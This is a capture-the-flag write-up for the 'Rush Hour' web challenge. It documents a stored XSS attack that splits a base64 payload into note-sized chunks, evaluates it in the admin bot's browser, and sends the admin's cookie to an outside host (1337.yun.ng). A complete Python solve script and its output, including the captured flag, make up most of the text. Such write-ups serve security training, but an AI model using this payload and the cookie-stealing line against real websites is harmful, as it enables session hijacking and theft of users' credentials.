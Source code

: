 ```yaml
---
ai_date: '2025-04-27 05:28:11'
ai_summary: XSS exploitation using base64 encoded payload and img tags for SSRF to
  read and send cookie
ai_tags:
- xss
- ssrf
- cookie-read
created: 2025-04-19T02:56
points: 388
solves: 49
tags:
- xss
title: Rush Hour
updated: 2025-04-20T20:29
---
```


It is pretty clear from the start that this has no XSS protection whatsoever.

Simple payloads work directly using `<script>` tags.

However due to character limits we need to split our payload into individual slices.

For simplicity we can encode the code as base64, split it into even chunks of 7 chars.
The payload simply concatenates the segments together, base64 decode and then `eval` it.

```python
def send_payload(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    add_note("<script>`")
    add_note("`;let c='';`")
    for i in range(0, len(payload), 7):
        chunk = payload[i:i+7]
        add_note(f"`;c+='{chunk}';`")
    add_note("`;c=atob(c);`")
    add_note("`;eval(c);`")
    add_note("`</script>")
```

So how do we get the flag? It requires a SSRF and then reading the cookie, then sending it out.

I quickly found out that `fetch` doesn't work. So I went with `img` tags.

```js
img.src = 'http://127.0.0.1:3000/';
```

By doing this once, we populate `document.cookie` with the flag.

Then we can simply send it out.

```js
location = 'https://1337.yun.ng/?c=' + encodeURIComponent(document.cookie);
```

## solve

> For style points I made the admin XSS another admin

```python
import base64
import time
import requests

from server import webhook

session = requests.Session()
# base = 'http://127.0.0.1:3000'
base = "http://rush-hour-v2.ctf.umasscybersec.org"


def register():
    session.get(base + '/').raise_for_status()
    return session.cookies.get('user')


def logout():
    session.cookies.clear()


def set_user(user_id):
    session.cookies.set('user', user_id)


def get_notes(user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/user/{session.cookies.get('user')}")
    r.raise_for_status()
    return r.text


def add_note(note, user_id=None, use_post=True):
    if user_id:
        set_user(user_id)
    r = session.post(f"{base}/create", data={'note': note}) if use_post else session.get(f"{base}/create", params={'note': note})
    r.raise_for_status()
    return r.text


def clear_notes(user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/clear")
    r.raise_for_status()
    return r.text


def report_user(target_id, user_id=None):
    if user_id:
        set_user(user_id)
    r = session.get(f"{base}/report/{target_id}")
    r.raise_for_status()
    return r.text


def send_payload(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    add_note("<script>`")
    add_note("`;let c='';`")
    for i in range(0, len(payload), 7):
        chunk = payload[i:i+7]
        add_note(f"`;c+='{chunk}';`")
    add_note("`;c=atob(c);`")
    add_note("`;eval(c);`")
    add_note("`</script>")


def send_payload_w(payload):
    payload = payload.strip()
    payload = base64.b64encode(payload.encode()).decode()
    code = ""
    code += f'await add_note("<script>`");'
    code += f'await add_note("`;let c=\'\';`");'
    for i in range(0, len(payload), 32):
        chunk = payload[i:i+32]
        code += f'await add_note("`;c+=\'{chunk}\';`");'

    code += f'await add_note("`;c=atob(c);`");'
    code += f'await add_note("`;eval(c);`");'
    code += f'await add_note("`</script>");'
    return code


uid = register()
print(f"registered user: {uid}")
print("sending payload...")
send_payload("""
window.sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
window.add_note = (note) => {
    // add img tag
    let img = document.createElement('img');
    if(note) img.src = 'http://127.0.0.1:3000/create?note=' + encodeURIComponent(note);
    else img.src = 'http://127.0.0.1:3000/';
    img.style.display = 'none';
    document.body.appendChild(img);
    return new Promise((resolve) => {
        img.onload = () => {
            document.body.removeChild(img);
            resolve();
        };
        img.onerror = () => {
            document.body.removeChild(img);
            resolve();
        };
    });
};
window.payload = async () => {
    await add_note();
    """ + send_payload_w("""
console.log("this is an xss embedded in a admin's notes");
console.log("totally done for style but hey");
""") + """
    location = 'https://1337.yun.ng/?c=' + encodeURIComponent(document.cookie);
};
window.payload();  
""")
print("activating payload...")
stop, wait = webhook(1337)
report_user(uid)
cookie = wait()['c'][0]
admin_uid = cookie.split(";")[0].split('=')[1]
flag = cookie.split(";")[1].split('=')[1]
print(f"admin uid = {admin_uid}")
print(f"flag = {flag}")
print("waiting for payload to finish on admin...")
time.sleep(4)
report_user(admin_uid)
stop()
```

```
registered user: 3dca4de7-6a04-47e2-bed5-fb4fed0929f7
sending payload...
activating payload...
127.0.0.1 - - [19/Apr/2025 02:54:34] "GET /?c=user%3D89074c1d-5049-48fd-8531-94f111518c4a-admin%3B%20supersecretstring%3DUMASS%257BtH3_cl053Rz_%2540re_n0_m%2540tcH%257D HTTP/1.1" 200 -
admin uid = 89074c1d-5049-48fd-8531-94f111518c4a-admin
flag = UMASS%7BtH3_cl053Rz_%40re_n0_m%40tcH%7D
waiting for payload to finish on admin...
127.0.0.1 - - [19/Apr/2025 02:54:34] "GET /favicon.ico HTTP/1.1" 200 -
```

```flag
UMASS{tH3_cl053Rz_@re_n0_m@tcH}
```